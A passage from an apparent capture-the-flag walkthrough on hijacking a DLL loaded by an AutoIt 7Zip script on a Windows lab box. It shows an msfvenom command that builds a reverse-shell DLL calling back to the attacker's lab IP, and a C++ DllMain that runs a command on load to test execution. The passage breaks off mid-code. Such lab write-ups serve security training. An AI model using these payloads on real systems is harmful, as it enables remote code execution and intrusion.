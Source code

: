 #### Show Use

Before I go creating a DLL, I’ll take a look at some of these AutoIt scripts to see if they use the dll. On downloading some and looking, there’s references to it in `7Zip.au3`:

[![image-20221109181013327](https://0xdfimages.gitlab.io/img/image-20221109181013327.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20221109181013327.png)

So if this AutoIt script is run, it’s likely that this DLL will be loaded.

#### msfvenom Fail

I don’t expect an MSF generated reverse shell to connect back for a couple reasons. First, Defender seems like it’s enabled on this box, and I would expect it to eat anything generated by MSF. Second, the Dll would be loaded into the AutoIt process, which is blocked outbound by the firewall.

Still, I’ll give it a try anyway because it only takes a minute and if I’m wrong, it would save a lot of time. I’ll generate a Dll reverse shell with `msfvenom`:

```

oxdf@hacky$ msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.10.14.6 LPORT=443 >
 rev.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 8704 bytes

```

I’ll upload this, and it seems to be there. However, when the scheduled task runs, I don’t get a callback, and the DLL is gone. This is almost certainly defender removing it. A bit later, the original is back.

#### Generate DLL - ping

I’ve written my own DLL a few times before. The most detailed writeup I have is from [HackBack](/2019/07/06/htb-hackback.html#dll). I’ll follow the same process here. I’ll open my Windows VM and Visual Studio. I’ll create a new project, filtering for C++ and selecting “Dynamic-Link Library (DLL)” as the type:

[![image-20221110073725689](https://0xdfimages.gitlab.io/img/image-20221110073725689.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20221110073725689.png)

After giving it a name, it’ll open with `dllmain.cpp` showing. I’ll add an `include` for `stdlib.h` to get access to the `system` function, and update the `DLL_PROCESS_ATTACH` case with my payload:

```

// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <stdlib.h>

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("cmd.exe /c ping 10.10.14.6");
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
```